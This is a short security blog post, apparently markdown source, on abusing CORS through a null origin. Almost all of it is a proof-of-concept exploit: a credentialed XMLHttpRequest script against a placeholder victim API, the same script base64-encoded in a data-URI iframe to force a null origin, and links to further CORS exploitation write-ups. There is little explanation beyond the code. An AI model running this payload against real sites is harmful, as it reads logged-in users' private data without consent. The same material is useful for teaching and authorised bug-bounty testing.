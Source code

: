 ```yaml
---
layout: single
title:  "Abusing CORS via null origin"
---
```


![](http://okqza840l.bkt.clouddn.com/20180704165454.png)
![](http://okqza840l.bkt.clouddn.com/20180704165532.png)

POC:
```
<script>
    var url = "https://www.victim.com/api/getuser";
    var req = new XMLHttpRequest();
    req.open('get',url,true);
    req.setRequestHeader("Accept", "application/json");
    req.withCredentials = true;
    req.send();
    req.onreadystatechange= function(){
    if(req.readyState == req.DONE) {
        document.write(this.responseText)
    }}
 </script>
```
This code was converted to the equivalent Base64 string.
```
<iframe width=100% height=100% src="data:text/html;base64,PHNjcmlwdD4gdmFyIHVybCA9ICJodHRwczovL3d3dy52aWN0aW0uY29tL2FwaS9nZXR1c2VyIjsgIHZhciByZXEgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTtyZXEub3BlbignZ2V0Jyx1cmwsdHJ1ZSk7cmVxLnNldFJlcXVlc3RIZWFkZXIoIkFjY2VwdCIsICJhcHBsaWNhdGlvbi9qc29uIik7cmVxLndpdGhDcmVkZW50aWFscyA9IHRydWU7cmVxLnNlbmQoKTtyZXEub25yZWFkeXN0YXRlY2hhbmdlPSBmdW5jdGlvbigpe2lmKHJlcS5yZWFkeVN0YXRlID09IHJlcS5ET05FKSB7ZG9jdW1lbnQud3JpdGUodGhpcy5yZXNwb25zZVRleHQpfSB9PC9zY3JpcHQ+">
```
Further reading:
- [Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
- [Exploiting Misconfigured CORS (Cross Origin Resource Sharing)](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
- [Exploiting Misconfigured CORS via Wildcard Subdomains](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-via-wildcard-subdomains)
- [CORS misconfigurations on a large scale](https://web-in-security.blogspot.com/2017/07/cors-misconfigurations-on-large-scale.html)
- [CORS Exploitation: Data exfiltration when allowed origin is set to NULL](https://yassineaboukir.com/blog/cors-exploitation-data-exfiltration-when-allowed-origin-is-set-to-null/)
- [CORS Misconfigurations Explained](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
- [Advanced CORS Exploitation Techniques](https://www.sxcurity.pro/advanced-cors-techniques/)
